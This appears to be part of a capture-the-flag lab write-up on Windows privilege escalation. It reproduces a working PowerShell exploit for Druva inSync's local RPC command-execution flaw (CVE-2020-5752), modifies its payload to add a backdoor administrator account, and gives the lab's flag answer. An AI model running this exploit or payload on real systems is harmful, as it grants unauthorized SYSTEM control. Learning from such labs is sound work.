### 📚 Case Study: Druva inSync 6.6.3

The target server is running Druva inSync 6.6.3. Lucky for us there is a vulnerability for privilege escalation for this version reported under [CVE 2020-5752](https://nvd.nist.gov/vuln/detail/CVE-2020-5752). Exploit was made by [Matteo Malvica](https://www.exploit-db.com/?author=9485).

This software runs an RPC (Remote Procedure Call) server on port 6064 with **SYSTEM** privileges, accessible from localhost only. RPC is a mechanism that allows a process to expose functions over the network so other machines can call them remotely.

One of the Druva inSync procedures (number 5), that runs od port 6064 is allowing anyone to request the execution of any command. You can already guess why is it undesirable, since it runs as **SYSTEM**.  This vulnerability was reported on earlier version 6.5.0. The idea was to remotely execute only specific binaries within inSync files, but this solution apparently wasn't properly tested.

The issued patch added additional verification that the executed command was started with the string `C:\ProgramData\Druva\inSync4\` where those above-mentioned binaries where located. But this wasn't enough since we could simply bypass this by using path traversal attack. If you for example wanted to execute `cmd.exe` which is located under `C:\Windows\System32` you could simply run `C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe` and it would bypass the check.

To better understand how does the exploit work we need some understanding of how to talk to the port 6064. Here is breakdown diagram.



* The first packet is a hello packet and it contains a fixed string.
* In the second packet we specify which procedure we want to execute. In our example is aformentioned procedure number 5.
* In the third packet we specify the length of our command.
* The last packet is our command we want to execute.

This is the [original code](https://packetstorm.news/files/id/160404) of the exploit written by Matteo Malvica

```PowerShell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```
In our lab we need to change the payload to create user with administrative privileges to something like this:
`net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add`

After executing this code in a PowerShelle terminal we can run `cmd.exe` as administrator and enter newly created `pwnd` account credentials.



#### 🚩 Get the flag on the Administrator's desktop



**Answer:** THM{EZ_DLL_PROXY_4ME}

## 🔎 Tools of the Trade

There are a few commonly used tools to identify privilege escalation vectors.

### ⚙️ WinPEAS

Windows Privilege Escalation Awesome Scripts is an open-source post-exploitation tool designed to automate the enumeration of Windows systems to identify potential privilege escalation paths. While using it, the best practice is to redirect output to a file because it can be lengthy and hard to read in console.

### 🧪 PrivescCheck

PrivescCheck is a PowerShell script that searches common privilege escalation on the target system. It provides an alternative to WinPEAS without requiring the execution of a binary file.

It is recommended to bypass the execution policy restrictions with running `Set-ExecutionPolicy` cmdlet.

Here's an example:

```PowerShell
PS C:\> Set-ExecutionPolicy Bypass -Scope process -Force
PS C:\> . .\PrivescCheck.ps1
PS C:\> Invoke-PrivescCheck
```

### 🗂️ WES-NG: Windows Exploit Suggester - Next Generation

As we can read on the GitHub project [page](https://github.com/bitsadmin/wesng):

> WES-NG is a tool based on the output of Windows' systeminfo utility which provides the list of vulnerabilities the OS is vulnerable to, including any exploits for these vulnerabilities. Every Windows OS between Windows XP and Windows 11, including their Windows Server counterparts, is supported.

Once installed, and before using it, type the `wes.py --update` command to update the database. The script will refer to the database it creates to check for missing patches that can result in a vulnerability you can use to elevate your privileges on the target system.

### 💣 Metasploit

If you have a Meterpreter shell on the target system, you can use the `multi/recon/local_exploit_suggester` module to list vulnerabilities that are present on the target system and may contribute to elevate privileges on the host.

## 🧾 Conclusion

This write-up presented several methods and techniques of privilege escalation available in Microsoft Windows systems. I hope you found it somehow educational and and entertaining as I did. See you in the next one.
